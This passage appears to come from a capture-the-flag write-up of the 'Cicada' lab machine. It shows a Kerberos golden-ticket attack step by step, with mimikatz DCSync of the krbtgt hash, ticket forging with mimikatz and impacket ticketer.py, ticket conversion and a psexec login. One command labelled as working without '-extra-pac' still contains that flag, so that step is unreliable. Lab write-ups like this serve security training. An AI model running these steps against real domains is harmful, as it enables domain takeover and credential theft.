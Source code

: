 -   **I upload** `nc64.exe` **and** `mimikatz.exe` **via** `evil-winrm` **session**:
    -   {{< figure src="/ox-hugo/2024-10-31-184255_.png" >}}
    -   {{< figure src="/ox-hugo/2024-10-31-184307_.png" >}}

-   **Start a reverse shell back to my attack machine**:
    -   {{< figure src="/ox-hugo/2024-10-31-184335_.png" >}}
    -   Evil-winrm does not play nice with mimikatz so we need standard reverse-shell.

-   **Extract SID &amp; KRBTGT hashes**:
    -   `lsadump::dcsync /user:krbtgt /domain:cicada.htb`
    -   {{< figure src="/ox-hugo/2024-10-31-184359_.png" >}}

-   **Create ticket**:
    -   `kerberos::golden /domain:cicada.local /user:Administrator /sid:S-1-5-21-917908876-1423158569-3159038727 /rc4:[rc4hash]`
    -   {{< figure src="/ox-hugo/2024-10-31-184230_.png" >}}
    -   This has a typo (I can see now there is a trailing dash after the `SID` however it still won't work. Read on)

-   **Download the** `.kirbi`
    -   {{< figure src="/ox-hugo/2024-10-31-184515_.png" >}}

-   **Convert** `.kirbi` **to** `.ccache`:
    -   `impacket-ticketConverter ticket.kirbi admin.ccache`
    -   {{< figure src="/ox-hugo/2024-10-31-192135_.png" >}}

-   **Setup** `KRB5CCNAME` **var**:
    -   `export KRB5CCNAME=./admin.ccache`

-   **Try and connect**:
    -   {{< figure src="/ox-hugo/2024-11-01-113642_.png" >}}
    -   It fails this is because I used the rc4 hash instead of the `AES` hash. So let's generate a new ticket using the `aesKey`.

-   **I create a new ticket using** `ticketer.py`:
    -   `python ticketer.py -aesKey [aesKey] -domain-sid [SID] -domain $domain -extra-pac -user-id 500 administrator`
    -   {{< figure src="/ox-hugo/2024-11-01-113804_.png" >}}
    -   +Imporant Note+: You do not need the `extra-pac` parameter the following will work, I was just airing on the side of caution as I had read this issue: <https://github.com/fortra/impacket/issues/1457> however the pull request was merged so should be resolved. This command will work (have also tested)
        -   `python ticketer.py -aesKey [aesKey] -domain-sid [SID] -domain $domain -extra-pac -user-id 500 administrator`

-   **Connect with** `psexec`:
    -   {{< figure src="/ox-hugo/2024-11-01-113904_.png" >}}


### Golden Ticket Curiosities: {#golden-ticket-curiosities}

-   When generating a ticket using ticketer.py I can create the ticket and it works fine.
    -   `python3 ../ticketer.py -aesKey [Key] -domain-sid [SID] -domain $domain administrator`

-   However when using mimikatz to generate the ticket, I use the exact same key SID etc:
    -   `kerberos::golden /domain:[domain] /user:administrator /sid:[SID] /aes256:[Key]`
